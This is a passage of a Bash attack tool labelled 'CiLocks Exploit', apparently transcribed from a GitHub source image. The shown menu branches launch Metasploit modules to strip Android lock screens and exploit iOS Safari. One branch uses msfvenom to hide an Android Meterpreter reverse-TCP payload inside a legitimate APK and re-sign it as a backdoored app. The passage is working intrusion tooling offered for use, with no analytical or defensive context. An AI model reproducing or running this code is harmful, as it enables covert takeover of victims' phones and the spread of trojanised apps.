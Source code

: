   elif [[ $select == 3 ]]; then
    read -p "LHOST: " host
    read -p "LPORT: " port
    msfconsole=msfconsole
    exploit='use post/android/manage/remove_lock_root'
    xterm -T " CiLocks Exploit " -geometry 100x35 -e "$msfconsole -x '$exploit; set PAYLOAD $payload ; set lhost $host ; set lport $port; exploit; exit -y'"

  elif [[ $select == 4 ]]; then
    read -p "LHOST: " host
    read -p "LPORT: " port
    msfconsole=msfconsole
    exploit='use exploit/apple_ios/browser/safari_jit'
    xterm -T " CiLocks Exploit " -geometry 100x35 -e "$msfconsole -x '$exploit; set PAYLOAD $payload2 ; set lhost $host ; set lport $port; exploit; exit -y'"
  fi

elif [[ $select == 4 ]]; then
  path="backdoor"
  loli="loli.apk"
  read -p "Enter LHOST: " host
  read -p "Enter LPORT: " port
  read -p "Enter Original Application: " ori
  read -p "Application Name: " app
  paths=$path/$loli
  echo -e "${lb}Wait Creating Backdoor...${n}"
  msfvenom --platform android -x $ori -p android/meterpreter/reverse_tcp lhost=$host lport=$port -o $paths

# if error,uncomment it

# echo "Wait Installing Keystore..."
  # sleep 5
  # keytool -genkey -V -keystore $path/key.keystore -alias hacked -keyalg RSA -keysize 2048 -validity 10000
  # jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore $path/key.keystore $paths hacked
  # jarsigner -verify -verbose -certs $paths
  # zipalign -v 4 $paths $path'/'$app'.apk'
  milf=$path/$app'.apk'
  rm $paths
  # rm $path/key.keystore
  echo "Your Backdoor Created In" $milf
  elif [[ $select == 99 ]]; then
  files
  fi
